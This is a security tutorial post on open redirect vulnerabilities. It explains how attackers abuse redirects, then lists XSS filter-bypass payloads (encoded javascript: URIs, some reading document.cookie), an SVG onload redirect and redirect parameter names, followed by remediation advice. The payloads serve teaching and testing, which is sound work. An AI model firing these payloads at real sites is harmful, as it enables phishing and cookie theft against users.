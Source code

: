 ```yaml
---
title: Open Redirect Vulnerability
#author: cotes
date: 2024-01-02 12:00:00 +04:00
categories: [Web Vulnerabilities,Open Redirect]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/open_redirection/open-redirection.jpg
  alt: Open Redirect Vulnerability
---
```


## What is Open Redirect?

Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application's access control check and then forward the attacker to privileged functions that they would normally not be able to access. 

## Exploitation

Consider this example: Your web application has a feature that allows users to click a link and be automatically redirected to their saved favorite home page. This may be performed as follows: 


  ```console
https://example.com/redirect?url=https://mywebsite.com
```


An attacker could exploit an open redirect here by replacing the `mywebsite.com` with a link to a malicious website. They could then distribute this link in a phishing email or on another website. When users click the link, they're taken to the malicious website.


## Open Redirect to XSS

  ```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

## Open Redirect uploading svg files

  ```bash
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```


## Common injection parameters

  ```bash
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```


## Safe URL Redirects

When we want to redirect a user automatically to another page (without an action of the visitor such as clicking on a hyperlink) you might implement a code such as the following:


**PHP**

```php
<?php
/* Redirect browser */
header("Location: http://www.mysite.com");
/* Exit to prevent the rest of the code from executing */
exit;
?>
```
{: file='index.php'}

**ASP .NET**

```csharp
Response.Redirect("~/folder/Login.aspx")
```
{: file='index.aspx'}

**Java**

```js
response.sendRedirect("http://www.mysite.com");
```
{: file='index.js'}

## Remediation

- If possible, applications should avoid incorporating user-controllable data into redirection targets. In many cases, this behavior can be avoided in two ways:
  - Remove the redirection function from the application, and replace links to it with direct links to the relevant target URLs.
  - Maintain a server-side list of all URLs that are permitted for redirection. Instead of passing the target URL as a parameter to the redirector, pass an index into this list.

- If it is considered unavoidable for the redirection function to receive user-controllable input and incorporate this into the redirection target, one of the following measures should be used to minimize the risk of redirection attacks:
  - The application should use relative URLs in all of its redirects, and the redirection function should strictly validate that the URL received is a relative URL.
  - The application should use URLs relative to the web root for all of its redirects, and the redirection function should validate that the URL received starts with a slash character. It should then prepend http://yourdomainname.com to the URL before issuing the redirect.
  - The application should use absolute URLs for all of its redirects, and the redirection function should verify that the user-supplied URL begins with http://yourdomainname.com/ before issuing the redirect.





## References

[**OWASP**](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/open-redirect)

[**Pentester**](https://pentester.land/blog/open-redirect-cheatsheet/)

[**Acunetix**](https://www.acunetix.com/vulnerabilities/web/open-redirection/)
